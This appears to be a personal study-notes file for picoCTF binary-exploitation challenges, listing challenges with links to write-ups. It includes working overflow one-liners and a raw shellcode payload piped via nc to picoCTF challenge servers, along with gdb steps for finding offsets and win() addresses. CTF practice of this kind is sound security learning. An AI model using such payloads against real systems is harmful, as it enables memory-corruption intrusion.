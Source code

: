 # PICO-CTF

1. stonks - bufferflow
`https://github.com/vivian-dai/PicoCTF2021-Writeup/blob/main/Binary%20Exploitation/Stonks/Stonks.md`
2. cachemeoutside - heap exploit
`https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Cache_Me_Outside.md`

3. here's a LIBC - buffer Overflow + ROP chain 
`https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Heres_a_LIBC.md`
`https://cyb3rwhitesnake.medium.com/picoctf-heres-a-libc-pwn-4184a99586d9`
4. Unsubscriptions are free - Use After Free vulnerability
`https://papadoxie.github.io/Writeups/PicoCTF/UnsubscriptionsAreFree/UnsubscriptionsAreFree.html`
`https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Unsubscriptions_Are_Free.md`
5. basic file exploit - look and code and identify
6. bufferoverflow0 - Simple too long input
7. cve-xxxx-xxxx - find cve number 
8. babygame01 - play game get flag
`https://medium.com/@khanzjoel55/pico-ctf-2023-writeups-ec12f20f9c1f`
9. two-sum - interger overflow
`https://github.com/snwau/picoCTF-2023-Writeup/blob/main/Binary%20Exploitation/two-sum/two-sum.md`
10. local target
```bash
/local-target                                              
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA
```
11. Picker IV
```bash
Look at code: win() function gives flag but it is not called anywhere
```

```bash
we use gdb to get the win() function address. 
```
```bash
gdb picker-IV
break win # gives win() addr`
exit
```

12. cluter-overflow : simple overflow
```
https://biplav.xyz/posts/coverflow/
https://synisl33t.com/2022/05/18/picoctf-clutter-overflow/
https://7rocky.github.io/en/ctf/picoctf/binary-exploitation/clutter-overflow/
```
`find offset by giving cyclic payload >> 272`
`Offset can also be calculated by looking at code, 0x110 - 0x8 = 264`

`one liner solution: (python3 -c 'import sys; sys.stdout.write("A" * 264)'; echo -e '\xef\xbe\xad\xde') | nc mars.picoctf.net 31890 `

13. filtered shellcode
```
printf "\x31\xC9\xF7\xE1\x51\x90\x31\xC0\x31\xDB\xB0\x11\xB3\x03\xF7\xE3\xF7\xE3\xB3\x02\xF7\xE3\xD1\xEB\x01\xD8\xB3\x02\xF7\xE3\xF7\xE3\xD1\xEB\x01\xD8\xB3\x02\xF7\xE3\xD1\xEB\x01\xD8\xB3\x11\xF7\xE3\xB3\x02\xF7\xE3\xF7\xE3\xD1\xEB\x01\xD8\x50\x90\x31\xC0\xB0\x7F\xB3\x17\xF7\xE3\xB3\x02\xF7\xE3\xD1\xEB\x01\xD8\xB3\x02\xF7\xE3\x5B\x90\xF7\xE3\x50\x90\x31\xC0\x31\xDB\xB0\x2F\xF7\xE0\xB3\x02\xF7\xE3\xF7\xE3\xD1\xEB\x01\xD8\x50\x90\x31\xC0\xB0\x2B\xB3\x03\xF7\xE3\xB3\x02\xF7\xE3\xF7\xE3\xF7\xE3\xD1\xEB\x01\xD8\xB3\x13\xF7\xE3\xB3\x05\xF7\xE3\xB3\x02\xF7\xE3\x5B\x90\xF7\xE3\x50\x90\x31\xC0\xB0\x05\x89\xE3\xCD\x80\x93\x90\x91\x90\xB0\x03\x31\xD2\x50\x90\x31\xC0\x31\xD2\xB2\x40\xB0\x40\xF7\xE2\x50\x90\x5A\x90\x31\xC0\xB0\x01\x29\xC2\x58\x90\x42\x90\xCD\x80\x92\x90\x31\xC0\xB0\x04\xB3\x01\xCD\x80\x93\x90\xCD\x80\n" |  nc mercury.picoctf.net 40525
```
```
https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/filtered-shellcode.md
https://cyb3rwhitesnake.medium.com/picoctf-filtered-shellcode-pwn-3d69010376df
https://ctftime.org/writeup/27464
https://github.com/JeffersonDing/CTF/blob/master/pico_CTF_2021/pwn/filtered_shellcode/ape.py

```

14. kit engine - shellcode !! Study this
`https://www.youtube.com/watch?v=I5ooL_LlO7A`
`https://github.com/exd0tpy/CTF-browser-challenges/blob/main/Kit_Engine/ex.js`
`find out the length of shell code, its 250 then execute`

15. bufferoverflow 1 : return address overflow
somewhat like clutter overflow
```
Enter large string > gives segfault > this means we can find offset of segfault
to find offset we can do cyclic payload
gdv vuln
pattern create 100
run
# paste pattern
info registers eip 
# we are finding eip address because EIP stands for Extended Instruction Pointer and is used to track the address of the current instruction running inside the application.
pattern offset $eip 
gives offset (44)
```
```
now to get win address
disassemble win
#and get the first address (Note: break main gives wrong addr idk why)
in our case 0x080491f6
but we need little endian version = '\xf6\x91\x04\x08'
python
p32(0x080491f6)
b'\xf6\x91\x04\x08'
```
```
pwn tools can also be used to find the address of win
python
>>> p32(v.symbols["win"])
b'\xf6\x91\x04\x08'
```
`one liner solution : (python3 -c 'import sys; sys.stdout.write("A" * 44)'; echo -e '\xf6\x91\x04\x08') |  nc saturn.picoctf.net 52848`
```
https://isharaabeythissa.medium.com/buffer-overflow-1-picoctf-done-by-ishara-abeythissa-2f85025956f0
https://github.com/0xCD4/Binary-Exploitation/blob/main/PicoCTF/Buffer-Overflow-1.md
```

(python3 -c 'import sys; sys.stdout.write("A" * 72)'; echo -e '\x36\x12\x40\x00\x00\x00\x00') 

16. RPS
its looking at the ccode and figuring out correct input
```
we can give "rockpaperscissors" as input multiple times
```

17. x-sixty-what

18. babygame02
19. hijacking
20. tic-tac
21. VNE
22. Guessing Game 1
23. Stonk Market
24. fermat-strings
25. messy malloc
26. Guessing Game 2
27. bufferoverflow 2
28. bufferoverflow 3 
29. flag leak
30. ropfu
31. wine
32. horsetrack
33. seed-sPRiNG
34. download horsepower
35. saas
36. the office
37. homework
38. function overwrite
39. stack cache
40. Turboflan
41. lockdown-horses
42. sice_cream
43. zero_to_hero
44. Bizz Fuzz
45. vr-school
46. solfire

